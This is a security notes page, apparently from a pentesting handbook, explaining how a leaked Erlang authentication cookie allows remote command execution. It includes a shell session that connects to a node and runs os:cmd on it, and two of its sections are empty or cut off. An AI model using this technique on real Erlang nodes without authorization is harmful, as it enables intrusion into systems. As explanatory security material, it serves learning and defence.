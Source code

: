 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own  \*\*magic cookie\*\*, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

## Node Poisoning

Connecting to an erlang cluster can potentially be dangerous.  The key matter of

## Cookie Bruteforcing

**Further Reading**

[https://www.broot.ca/erlang-remsh-is-dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)



[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://blog.voltone.net/post/4](https://blog.voltone.net/post/4)

[https://blog.voltone.net/post/12](https://blog.voltone.net/post/12)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

